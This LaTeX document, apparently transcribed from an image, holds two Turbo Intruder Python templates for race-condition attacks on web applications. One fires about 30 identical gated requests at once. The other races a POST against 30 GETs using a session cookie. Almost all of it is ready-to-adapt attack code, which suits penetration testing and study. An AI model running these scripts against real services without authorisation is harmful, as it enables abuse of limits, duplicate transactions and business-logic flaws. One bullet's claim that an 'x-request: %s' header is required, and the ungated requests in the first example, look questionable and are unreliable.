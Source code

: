 \documentclass[11pt]{article}
\begin{document}
\subsection{Example 1 -- Classic Race (single request repeated)}
\begin{lstlisting}[style=code]
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False)
    for i in range(30):
        engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')
    engine.start(timeout=5)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
\end{lstlisting}
\begin{itemize}[leftmargin=1.2em]
  \item Set the external HTTP header \texttt{x-request: \%s} before running -- this is required internally by Turbo Intruder for payload substitution.
\end{itemize}

\subsection{Example 2 -- Two Different Requests Racing Each Other}
\begin{itemize}[leftmargin=1.2em]
  \item Useful when \texttt{request2} must land \emph{immediately} after \texttt{request1}, with only a few milliseconds of race window between them (e.g. multi-endpoint races).
\end{itemize}
\begin{lstlisting}[style=code]
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=100,
                            pipeline=False)
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    '''
    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''
    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
\end{lstlisting}
\end{document}
